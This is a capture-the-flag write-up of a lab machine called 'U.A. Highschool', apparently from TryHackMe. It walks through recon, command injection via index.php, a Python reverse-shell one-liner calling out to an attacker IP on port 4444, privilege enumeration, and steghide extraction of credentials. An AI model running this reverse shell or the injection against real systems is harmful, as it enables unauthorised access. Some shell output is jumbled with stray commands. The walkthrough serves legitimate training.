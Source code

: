 # U.A. Highschool CTF

## Recon
1. nmap -sS -oN nmap_initial.txt gives us open ssh and http ports. Lets get detail on the http port 
2. nmap -A -p80 -oN nmap_http.txt school.thm we have an apache web server running lets go ahead and look at the website
3. The webiste has a few forms but non seem functional there doesn't seem to be anything interesting in the sorce code.
4. gobuster dir -u http://school.thm -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -t 50 reveals only /assets and /server-status
5. Wild goose chase with Japanese word lists
6. the hint says be suspicous of any unused files lets look for files; we find an index.php
7. we have found LFI on index.php

## LFI Exploration

1. http://school.thm/assets/index.php?cmd=whoami gives us d3d3LWRhdGEK
2. base 64 decode shows user is www-data
3. http://school.thm/assets/index.php?cmd=cat /etc/apache2/sites-enabled/000-default.conf reveals some info see apache_conf.txt
4. we are able to reverse shell http://school.thm/assets/index.php?cmd=python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.6.6.11",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"]);'


## Reverse Shell

1. stabalize with: python3 -c 'import pty; pty.spawn("/bin/bash")'
2. make terminal responsive export TERM=xterm
3. improve input handling: stty raw -echo; fg
4. www-data@myheroacademia:/var/www/html/assets$ whoami && hostname
www-data
myheroacademia
5. www-data@myheroacademia:/var/www/html/assets$ uname -a
Linux myheroacademia 5.4.0-153-generic #170-Ubuntu SMP Fri Jun 16 13:43:31 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
6. www-data@myheroacademia:/var/www/html/assets$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
7. www-data@myheroacademia:/var/www/html/assets$ df -h
Filesystem                         Size  Used Avail Use% Mounted on
/dev/mapper/ubuntu--vg-ubuntu--lv  9.8G  4.7G  4.7G  51% /
udev                               436M     0  436M   0% /dev
tmpfs                              481M     0  481M   0% /dev/shm
tmpfs                               97M  944K   96M   1% /run
tmpfs                              5.0M     0  5.0M   0% /run/lock
tmpfs                              481M     0  481M   0% /sys/fs/cgroup
/dev/loop0                          64M   64M     0 100% /snap/core20/1828
/dev/loop1                          50M   50M     0 100% /snap/snapd/18357
/dev/loop2                          92M   92M     0 100% /snap/lxd/24061
/dev/xvda2                         1.7G  108M  1.5G   7% /boot
8. /usr/bin/passwd
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/fusermount
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/sudo
/usr/bin/chfn
/usr/bin/pkexec
/usr/bin/umount
/usr/bin/at
/usr/bin/su
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/snapd/snap-confine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/snap/core20/1828/usr/bin/chfn
/snap/core20/1828/usr/bin/chsh
/snap/core20/1828/usr/bin/gpasswd
/snap/core20/1828/usr/bin/mount
/snap/core20/1828/usr/bin/newgrp
/snap/core20/1828/usr/bin/passwd
/snap/core20/1828/usr/bin/su
/snap/core20/1828/usr/bin/sudo
/snap/core20/1828/usr/bin/umount
/snap/core20/1828/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core20/1828/usr/lib/openssh/ssh-keysign
/snap/snapd/18357/usr/lib/snapd/snap-confine
9. www-data@myheroacademia:/var/www/html/assets$ find / -writable -type f 2>/dev/null
cat /etc/passwd | grep bash/var/www/html/assets/images/yuei.jpg
/var/www/html/assets/images/oneforall.jpg
/var/www/html/assets/index.php
/var/www/html/index.html
/var/www/html/about.html
/var/www/html/admissions.html
/var/www/html/contact.html
/var/www/html/courses.html
/var/www/Hidden_Content/passphrase.txt
10. www-data@myheroacademia:/var/www/html/assets$ cat /var/www/Hidden_Content/passphrase.txt
QWxsbWlnaHRGb3JFdmVyISEhCg== : AllmightForEver!!!
11. www-data@myheroacademia:/var/www/html/assets$ cat /etc/passwd | cut -d: -f1
root
daemon
bin
sys
sync
games
man
lp
mail
news
uucp
proxy
www-data
backup
list
irc
gnats
nobody
systemd-network
systemd-resolve
systemd-timesync
messagebus
syslog
_apt
tss
uuidd
tcpdump
landscape
pollinate
fwupd-refresh
usbmux
sshd
systemd-coredump
deku

lxd

11. su - deku fail
12. ssh deku@school.thm fail
13. www-data@myheroacademia:/var/www/html/assets$ cat /etc/shadow | grep deku
cat: /etc/shadow: Permission denied
14. www-data@myheroacademia:/var/www/html/assets$ netstat -tulnp
ps aux | grep deku(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                   
udp        0      0 10.10.5.150:68          0.0.0.0:*                           -                   
udp        0      0 0.0.0.0:55490           0.0.0.0:*                           -                   
www-data@myheroacademia:/var/www/html/assets$ 
15. www-data@myheroacademia:/var/www/html/assets$ ls -la /home/deku/
total 36
drwxr-xr-x 5 deku deku 4096 Jul 10  2023 .
drwxr-xr-x 3 root root 4096 Jul  9  2023 ..
lrwxrwxrwx 1 root root    9 Jul  9  2023 .bash_history -> /dev/null
-rw-r--r-- 1 deku deku  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 deku deku 3771 Feb 25  2020 .bashrc
drwx------ 2 deku deku 4096 Jul  9  2023 .cache
drwxrwxr-x 3 deku deku 4096 Jul  9  2023 .local
-rw-r--r-- 1 deku deku  807 Feb 25  2020 .profile
drwx------ 2 deku deku 4096 Jul  9  2023 .ssh
-rw-r--r-- 1 deku deku    0 Jul  9  2023 .sudo_as_admin_successful
-r-------- 1 deku deku   33 Jul 10  2023 user.txt
16 we found the flag but:
www-data@myheroacademia:/var/www/html/assets$ cat /home/deku/user.txt
cat: /home/deku/user.txt: Permission denied
17. ww-data@myheroacademia:/var/www/html/assets$ find / -perm -4000 -type f 2>/dev/null
/usr/bin/passwd
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/fusermount
/usr/bin/mount
/usr/bin/newgrp
/usr/bin/sudo
/usr/bin/chfn
/usr/bin/pkexec
/usr/bin/umount
/usr/bin/at
/usr/bin/su
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/snapd/snap-confine
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
18. looking back at the hint unused files : 
www-data@myheroacademia:/var/www/html/assets$ ls -la images/
total 336
drwxrwxr-x 2 www-data www-data   4096 Jul  9  2023 .
drwxrwxr-x 3 www-data www-data   4096 Jan 25  2024 ..
-rw-rw-r-- 1 www-data www-data  98264 Jul  9  2023 oneforall.jpg
-rw-rw-r-- 1 www-data www-data 237170 Jul  9  2023 yuei.jpg
oneforall.jpg isn't used on the site

## Image Examination

1. download image wget http://school.thm/assets/images/oneforall.jpg
2. exiftool oneforall.jpg > exif.txt it appears to be a .png file not .jpg
3. pngcheck -v oneforall.png
File: oneforall.png (98264 bytes)
  invalid chunk name "" (01 00 00 01)
ERRORS DETECTED in oneforall.png
4. file oneforall.png 
oneforall.png: data
5. hexedit to switch to jpg : 
file oneforall.jpg
oneforall.jpg: JPEG image data, JFIF standard 1.01, aspect ratio, density 1x1, segment length 16, baseline, precision 8, 1140x570, components 3
6. steghide extract -sf oneforall.jpg
Enter passphrase: AllmightForEver!!!
wrote extracted data to "creds.txt"
7. password found: One?For?All_!!one1/A
